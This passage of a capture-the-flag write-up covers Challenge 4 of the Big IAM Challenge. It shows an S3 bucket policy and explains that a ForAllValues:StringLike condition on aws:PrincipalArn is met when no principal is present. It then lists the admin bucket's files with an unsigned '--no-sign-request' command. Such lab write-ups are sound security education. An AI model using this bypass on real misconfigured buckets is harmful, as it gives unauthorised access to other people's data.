 

## Challenge 4 - Admin only?
The given hint: 
> We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

The given IAM policy:
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```
The policy allows getting objects without any restrictions for the whole buckets, this means, if I know the name of the file I want to download I can do it!

```
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag.txt /tmp/
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```

Sadly I don't...Listing the contents of the buckets has an additional condition, which states that for all values present in `aws:PrincipalArn`, they need to look like `arn:aws:iam::133713371337:user/admin`. `ForAllValues:StringLike` is a bad way to restrict access, because it does the condition for all values **present**. This means if there are no values present, the condition is fullfilled. I learned this [here][forallvalues]. We may list the content of the bucket, by not loading the credentials using the `--no-sign-request` parameter.

```
> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request
2023-06-07 19:15:43         42 flag-as-admin.txt
2023-06-08 19:20:01      81889 logo-admin.png
```


[link]: https://www.wiz.io/blog/the-big-iam-challenge
[rbasket]: https://rbaskets.in
[forallvalues]: https://awstip.com/creating-unintentional-ways-to-bypass-aws-iam-policies-when-using-the-forallvalues-operator-3516a7f17ed0
[finished]: https://bigiamchallenge.com/finisher/7TZWgQ7E